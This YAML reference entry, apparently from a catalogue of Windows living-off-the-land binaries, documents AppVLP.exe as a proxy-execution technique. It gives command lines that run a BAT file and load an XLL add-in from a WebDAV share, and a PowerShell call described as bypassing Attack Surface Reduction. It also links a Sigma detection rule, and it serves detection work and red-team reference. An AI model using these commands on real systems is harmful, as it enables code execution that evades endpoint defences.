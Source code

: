 ```yaml
---
Name: Appvlp.exe
Description: Application Virtualization Utility Included with Microsoft Office 2016
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: AppVLP.exe \\webdav\calc.bat
    Usecase: Execution of BAT file hosted on Webdav server.
    Description: Executes calc.bat through AppVLP.exe
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 10 w/Office 2016
    Tags:
      - Execute: CMD
  - Command: AppVLP.exe powershell.exe -c "$e=New-Object -ComObject shell.application;$e.ShellExecute('calc.exe','', '', 'open', 1)"
    Usecase: Local execution of process bypassing Attack Surface Reduction (ASR).
    Description: Executes powershell.exe as a subprocess of AppVLP.exe and run the respective PS command.
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 10 w/Office 2016
    Tags:
      - Execute: EXE
  - Command: AppVLP.exe powershell.exe -c "$e=New-Object -ComObject excel.application;$e.RegisterXLL('\\webdav\xll_poc.xll')"
    Usecase: Local execution of process bypassing Attack Surface Reduction (ASR).
    Description: Executes powershell.exe as a subprocess of AppVLP.exe and run the respective PS command.
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 10 w/Office 2016
    Tags:
      - Execute: EXE
Full_Path:
  - Path: C:\Program Files\Microsoft Office\root\client\appvlp.exe
  - Path: C:\Program Files (x86)\Microsoft Office\root\client\appvlp.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_lolbin_appvlp.yml
Resources:
  - Link: https://github.com/MoooKitty/Code-Execution
  - Link: https://twitter.com/moo_hax/status/892388990686347264
  - Link: https://enigma0x3.net/2018/06/11/the-tale-of-settingcontent-ms-files/
  - Link: https://securityboulevard.com/2018/07/attackers-test-new-document-attack-vector-that-slips-past-office-defenses/
Acknowledgement:
  - Person: fab
    Handle: '@0rbz_'
  - Person: Will
    Handle: '@moo_hax'
  - Person: Matt Wilson
    Handle: '@enigma0x3'
---
```

